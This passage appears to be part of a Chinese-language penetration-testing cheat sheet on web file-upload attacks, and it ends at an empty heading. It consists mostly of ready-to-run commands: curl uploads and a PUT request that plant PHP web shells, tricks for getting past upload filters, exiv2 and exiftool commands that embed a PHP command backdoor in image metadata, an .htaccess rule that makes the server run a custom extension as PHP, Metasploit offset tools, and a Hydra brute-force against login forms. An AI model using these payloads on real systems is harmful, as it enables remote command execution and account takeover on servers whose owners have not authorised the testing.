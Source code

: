 #### 通过WWW上传表格上传/张贴文件

```text
# POST 上传文件
curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php --cookie "cookie"

# POST 上传二进制数据到web表单
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v
```

#### 通过PUT把文件放到网站主机上

```text
curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
```

#### 生成有效载荷模式和计算偏移量

```text
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $EIP_VALUE
```

#### 绕过File 上传

* file.php -&gt; file.jpg
* file.php -&gt; file.php.jpg
* file.asp -&gt; file.asp;.jpg
* file.gif \(contains php code, but starts with string GIF/GIF98\)
* 00%
* file.jpg with php backdoor in exif \(see below\)
* .jpg -&gt; proxy intercept -&gt; rename to .php

#### 将PHP注入JPEG

```text
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

#### 上传.htaccess 解释 .blah 成 .php

```text
AddType application/x-httpd-php .blah
```

### 暴力破解密码

#### **使用Hydra破解Web表单**

```text
hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list
```

#### **使用Hydra破解通用协议**
